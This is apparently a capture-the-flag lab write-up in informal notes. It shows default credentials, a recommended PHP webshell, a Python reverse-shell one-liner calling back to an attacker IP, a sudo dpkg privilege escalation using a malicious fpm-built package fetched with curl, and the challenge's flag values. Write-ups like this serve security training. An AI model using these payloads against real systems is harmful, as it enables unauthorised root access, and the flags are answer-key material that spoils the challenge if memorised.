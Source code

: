 
IP=10.0.160.145

# Port
**port- 80**


path_to_check
'/auth/check'
/install
/finder
/assets


*Credentials*
~~~
username- admin
password- admin
~~~

This is the best php webshell file that helped me 
*phpbash.php*

#search_query
```
"github" "phpbash.php"
```

**My reverse shell payload in python**
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.43.230",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

After getting on the system, 
You would find the user you are logged on as, has a sudo privilege on a dpkg file 

![[Pasted image 20240921232013.png]]

With a little search on gtfobins, a way around this escalation 

![](./Pasted image 20240921232226.png)

Okay, we have to use the fpm(fotran package manager) to create a deb file on our host system and transfer it to the target machine. Before that we can install fpm on our host with the command below;

```
sudo gem install fpm
```

Now, copy and paste the commands from gtfobins;

```
TF=$(mktemp -d)
echo 'exec /bin/sh' > $TF/x.sh
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF
```


Open a server (python i prefer) in the directory you create the deb file in

![[Pasted image 20240921232946.png]]

Now on the target machine, type;
```
curl http://<your-ip>:port/x_1.0_all.deb -o x_1.0_all.deb

sudo /bin/dpkg -i x_1.0_all.deb
```

Congratulation, you are now root :)
![[Pasted image 20240921233457.png]]



Thanks for reading although it's dump and hard to read. 

# Flags
user - ETSCTF_97e9e90a6617e514b7de4ef05c1cb03a
root - ETSCTF_53c8a434425067cb3ad91ea0f972b92e
